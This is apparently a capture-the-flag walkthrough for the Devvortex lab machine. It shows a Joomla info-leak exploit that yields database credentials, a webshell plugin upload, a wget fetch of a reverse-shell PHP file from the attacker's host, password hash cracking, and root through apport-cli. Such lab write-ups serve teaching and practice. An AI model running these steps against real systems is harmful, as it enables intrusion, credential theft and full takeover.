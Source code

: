 # Seasonal Machine devvortex easy machine

# Enumerate 
Firstly Copy the ip machine and fill it on `/etc/hosts devvortex.htb`

enumerate subdo with gobuster or fuzz for nmap i scanned but only 22 and 80 port opened

`gobuster vhost -u http://devvortex.htb/ -w /usr/share/wordlists/Seclists/Discovery/DNS/subdomains-top1million-5000.txt -apppend-domain`

and you will got this subdomain dev.devvortex.htb and back again to /etc/hosts fill it
after that

Enumerate the files

`gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://dev.devvortex.htb/`

```
/administrator        (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/administrator/]
/api                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/api/]
/cache                (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/cache/]
/components           (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/components/]
/home                 (Status: 200) [Size: 23221]
/images               (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/images/]
/includes             (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/includes/]
/index.php            (Status: 200) [Size: 23221]
/language             (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/language/]
/layouts              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/layouts/]
/libraries            (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/libraries/]
/media                (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/media/]
/modules              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/modules/]
```

this mean is this website use joomla because the folder name is administrator and second is /language

so how to exploit it to revshell?we enum again use gobuster again but add .txt like this

```gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://dev.devvortex.htb/ -x .txt```

```/README.txt           (Status: 200) [Size: 4942]```

got it
so copy the files go to subdo 
Joomla! CMS™

# Overview
	* This is a Joomla! 4.x installation/upgrade package.
	* Joomla! Official site: https://www.joomla.org
	* Joomla! 4.2 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_4.2_version_history
	* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/4.2-dev
    

Go to google search Joomla 4.2 Exploit

You will find this website https://github.com/Acceis/exploit-CVE-2023-23752

```
git clone https://github.com/Acceis/exploit-CVE-2023-23752.
cd Explot-xxxxx
gem install httpx docopt paint

or

bundle install```


ruby exploit.rb http://dev.devvortex.htb

```
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: ******
DB name: joomla
DB prefix: sd4fg_
DB encryption 0                   
```

DB user: lewis
DB password: ##&&&**^%&&&
go login http://dev.devvortex.htb/administrator copy db user and db paswd then paste it to form login

For Upload Shell Search on google joomla upload shell 
u will found this exploit 
https://github.com/p0dalirius/Joomla-webshell-plugin
Download as zip 
Go to "System --> Extensions" page, at http://127.0.0.1:10080/administrator/index.php?option=com_installer&view=install, and click on "Upload Package File":

upload .zip you downloaded it

Response:"Installation of the module was successful."


#Access Webshell 
http://dev.devvortex.htb/modules/mod_webshell/mod_webshell.php

i tried revshell use bash not work so i tried upload shell pentest monkey is work!

Open new terminal go to folder webshell and run python -m http.server 80

http://dev.devvortex.htb/modules/mod_webshell/mod_webshell.php?action=exec&cmd=wget -O /var/www/dev.devvortex.htb/c.php http://10.10.14.27/rev.php

``Output
"--2023-11-26 04:55:55--  http://10.10.14.27/rev.php\nConnecting to 10.10.14.27:80... connected.\nHTTP request sent, awaiting response... 200 OK\nLength: 2585 (2.5K) [application/octet-stream]\nSaving to: '/var/www/dev.devvortex.htb/c.php'\n\n     0K ..                                                    100% 3.39M=0.001s\n\n2023-11-26 04:55:55 (3.39 MB/s) - '/var/www/dev.devvortex.htb/c.php' saved [2585/2585]\n\n"
``
Its Work Uploaded!!

http://dev.devvortex.htb/c.php


``
nc -lvnp 1337  
listening on [any] 1337 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.11.242] 33522
Linux devvortex 5.4.0-167-generic #184-Ubuntu SMP Tue Oct 31 09:21:49 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 04:57:36 up  1:30,  2 users,  load average: 0.00, 0.03, 0.42
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
logan    pts/0    10.10.16.2       03:28    1:14m  9.01s  0.03s sshd: logan [priv]  
logan    pts/3    10.10.16.11      03:53   31:03  18.99s  0.03s sshd: logan [priv]  
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$
``

for login ssh you need login mysql u can use adminer or mysql command like this

do not forgot spawn tty shell python , because if you not spawn tty its now work

`

mysql -u lewis -p joomla 

Enter password: 
**********
mysql> use joomla;
show tables;
sd4fg_users

select * from sd4fg_users;
------------------------------------------------------------------------------------------
Username    Password
------------------------------------------------------------------------------------------
logan    | $2y$10$IT4k5kmSG*******************************

copy the password and hash it use john the ripper

ssh logan@dev.devvortex.htb 

Hashes password:tequieromucho


```


# Privilege Escalation

```
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
 ```

# Refference 

https://nvd.nist.gov/vuln/detail/CVE-2023-2660

https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb


`sudo /usr/bin/apport-cli -c /bin/chfn less`

for path anything you can use but do not forget add less 

```
Please choose (S/V/K/I/C):v

== ProcCpuinfoMinimal =================================
processor       : 1
vendor_id       : AuthenticAMD
cpu family      : 23
model           : 49
model name      : AMD EPYC 7302P 16-Core Processor
stepping        : 0
cpu MHz         : 2994.375
cache size      : 512 KB
physical id     : 2
siblings        : 1
core id         : 0
cpu cores       : 1
apicid          : 2
initial apicid  : 2
fpu             : yes
fpu_exception   : yes
cpuid level     : 16
!sh

# id
uid=0(root) gid=0(root) groups=0(root)

success :D

Happy Hacking 
